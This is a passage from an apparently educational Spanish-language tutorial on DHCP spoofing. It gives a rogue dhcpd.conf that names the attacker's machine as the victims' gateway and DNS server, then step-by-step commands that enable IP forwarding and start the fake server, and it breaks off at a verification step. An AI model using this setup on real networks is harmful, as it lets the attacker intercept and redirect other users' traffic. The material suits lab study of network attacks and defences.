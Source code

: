 
### 📁 Configuración del servidor DHCP falso

#### 1️⃣ Crear archivo de configuración `dhcpd.conf`

```bash
sudo nano /etc/dhcp/dhcpd.conf
```

Agrega:

```conf
default-lease-time 600;
max-lease-time 7200;

subnet 192.168.1.0 netmask 255.255.255.0 {
  range 192.168.1.50 192.168.1.100;
  option routers 192.168.1.200;         # IP del atacante
  option domain-name-servers 192.168.1.200; # DNS del atacante
}
```

🔧 Explicación:

- `option routers`: indica a las víctimas cuál es su puerta de enlace. Ponemos la del atacante.
- `range`: IPs que asignará el servidor DHCP falso.
- `option domain-name-servers`: DNS que usará la víctima (el atacante también puede controlar esto).

---

### 💥 Ejemplo práctico: Ataque DHCP Spoofing

#### 🧪 Escenario:

- Red: `192.168.1.0/24`
- Atacante (Kali): `192.168.1.200`
- Víctima: otro PC que se conecta a la red

---

#### ✅ Paso a paso

##### 1️⃣ Habilita reenvío de IP

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

##### 2️⃣ Levanta el servidor DHCP falso

```bash
sudo dhcpd -cf /etc/dhcp/dhcpd.conf
sudo systemctl start isc-dhcp-server
```

Verifica con:

